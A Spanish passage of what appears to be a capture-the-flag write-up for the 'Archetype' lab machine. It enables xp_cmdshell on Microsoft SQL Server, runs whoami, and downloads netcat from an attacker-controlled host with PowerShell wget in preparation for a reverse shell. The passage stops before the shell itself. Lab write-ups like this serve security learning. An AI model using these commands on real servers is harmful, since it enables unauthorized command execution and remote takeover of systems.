 ```bash
reconfigure;  
```

```bash
sp_configure; 
``` 

```bash
EXEC sp_configure 'xp_cmdshell', 1;
```

```bash
reconfigure; 
```

```bash
xp_cmdshell "whoami"
```
Con la ultima linea de comando confirmamos:

```bash 
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami" 
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL  
```

Ya lo tenemos listo, podemos ejecutar comandos en el sistema.

Ahora tratermos de montarnos nuestra reverse shell.

Lo primero seria descargar nc (netcat para windows) y pasarle el archivo a la maquina victima.
```url
https://eternallybored.org/misc/netcat/
```
Luego que ubicamos nuestro archivo nc.exe en un directorio del sistema local.

Lo que haremos es montarnos un server en python, desde la misma ruta del archivo nc.exe.
```bash
❯ python3 -m http.server
```

Vamos a la maquina y ejecutamos lo siguiente:

```powershell
xp_cmdshell "powershell.exe wget http://10.10.14.255:8000/nc64.exe -OutFile c:\\Users\Public\\nc64.exe"
```
Obviamente, cambia la ip, por tu ip de atacante de la interfas tun0.

Esta linea de comando lo que hace es hacer una peticion wget, a nuestro servidor web con python y le indicamos que tome el archivo nc64.exe y que lo coloque en la ruta "c:\\Users\Public\\nc64.exe".

Ahora que tenemos el archivo descargado en la maquina victima lo que vamos a hacer es ejecutarlo para mandarnos la reverse shell.
